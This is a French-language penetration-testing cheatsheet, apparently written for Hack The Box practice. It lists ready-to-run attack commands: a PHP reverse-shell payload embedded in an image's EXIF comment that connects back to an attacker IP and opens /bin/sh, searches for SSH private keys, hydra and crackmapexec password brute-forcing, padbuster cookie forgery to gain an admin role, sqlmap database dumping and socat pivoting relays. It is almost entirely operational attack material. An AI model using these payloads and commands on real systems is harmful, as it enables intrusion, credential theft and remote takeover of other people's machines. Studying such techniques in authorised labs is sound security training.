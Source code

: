 ```yaml
---
title: "Cheatsheet"
date: 2021-09-29T08:47:11+01:00
draft: true
fontsize: 12pt
---
```


# Summary

- [Introduction]()
- [Reverse shell]()
- [Transfert de fichiers]()
- [Exploit & élévation de privilèges (Linux)]()
- [Exploit & élévation de privilèges (Windows)]()
- [Bruteforce]()
- [Injection SQL]()

---

## Reverse shell samples

* https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

---

## Exploit & élévation de privilèges (Linux)
```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
```bash
/usr/bin/script -qc /bin/bash /dev/null
```
Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet
```bash
padbuster <URL> <COOKIE> <BLOCK_SIZE> -cookies "<PHPESSID_COOKIE> <OPTIONNAL_COOKIES>" --plaintext '<NEW_VALUE>'
```
Exemple :
```bash
padbuster http://docker.hackthebox.eu:59436/profile.php tu%2FOelHH0Nx8BaMhIurtihnbzj6YiABdvdMp0%2Fm6NII%2FClg%2B5Os9Rg%3D%3D 8 -cookies « PHPSESSID=74j9m7o8pbaq8pdoq3l56rvpk4; iknowmag1k=tu%2FOelHH0Nx8BaMhIurtihnbzj6YiABdvdMp0%2Fm6NII%2FClg%2B5Os9Rg%3D%3D » –plaintext ‘{« user »: »test », »role »: »admin »}’
```
```bash
searchsploit -t <INTITLE>  <KEYWORDS> -w
```
searchsploit windows local smb
```bash
sudo -l
```
-> liste les commandes autorisées pour l’utilisateur courant
```bash
find / -type d -writable 2> /dev/null
```
-> Liste les répertoires accessibles en écriture
```bash
find /* -user root -perm -4000 -print 2>/dev/null
```
-> Liste les binaires exécutables par l’utilisateur courant
```bash
find / -type f -perm /6000 -ls 2>/dev/null 
```
-> Liste les fichiers setuid/setgid sur le système
```bash
find / -iname "mon_fichier" -print 2>/dev/null
```
-> Trouver un fichier précis sur le système
```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
-> Trouver des clés RSA ou des autorisations de connexion SSH

grep -rnw '/opt/bitnami/' --include=\*.php -e 'passw'

-> Rechercher du texte dans des fichiers d’une arborescence
```bash
binwalk socute.jpg 
```
-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)

 exiftool -Comment='<?php $sock = fsockopen("<IPADDRESS>",<PORT>);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>'   <IMAGE>

exiftool -Comment='<?php $sock = fsockopen(« 10.10.10.1 »,1234);$proc = proc_open(« /bin/sh -i », array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png 

---

## Exploit & élévation de privilèges (Windows)


---

## Transfert de fichiers

* Permet de lancer un relai TCP vers une autre machine (pivoting)

``` bash
socat TCP4-LISTEN:1234 TCP4:10.10.10.171:80 &
```

* Pratique lorsqu’on se connecte à HTB via un VPS
```bash
socat TCP4-LISTEN:1234,fork TCP4:10.8.6.2:22 &
```
* Lance un relai TCP et fork le tunnel en cas de coupure
```bash
python -m SimpleHTTPServer <PORT>
```
* Lance un serveur web dans le répertoire local
```bash
apt-get install python-pyftpdlib

python -m pyftpdlib -p 21
```
* Lance un serveur ftp dans le répertoire courant
```bash
impacket/examples/smbserver.py -smb2support -username guest -password guest share /root/htb
```
* Lance un serveur smb accessible en tant que guest/guest

 Possibilité d’y accéder sous Windows avec un net use

---

## Bruteforce

Cracker un zip chiffré avec une liste de mots de passe
```bash
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip
```
```bash
crunch <MIN> <MAX> <CONTENT>
```

crunch 4 15 « abcdefghijklmnopqrstuvwxyz »
```bash
crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
```
Tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)
```bash
hydra -l <USER> -P <WORDLIST> <IP ADDRESS> <METHOD> <URL>
```
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring
```
```bash
hydra -l <LOGIN> -P <WORDLIST> <URL> <METHOD>"<PAGE>:<ARGUMENT>=^<VALUE>^:<INCORRECT STRING>" -w <THREADS> -s <PORT>
```
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692
```
```bash
john --incremental <HASHFILE>
```
Pour bruteforcer de façon incrémentale
```bash
john <HASHFILE> --wordlist=/usr/share/wordlists/rockyou.txt
```
Pour bruteforcer avec un dictionnaire

Script de bruteforce anti-CSRF :

https://github.com/J3wker/anti-CSRF_Token-Bruteforce


---

## Injection SQL
```bash
sqlmap -u <URL> (--dbs / --tables -D <DATABASE> / --columns -D <DATABASE> -T <TABLENAME>)
```
```bash
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES
```
---

### [Back](/../../)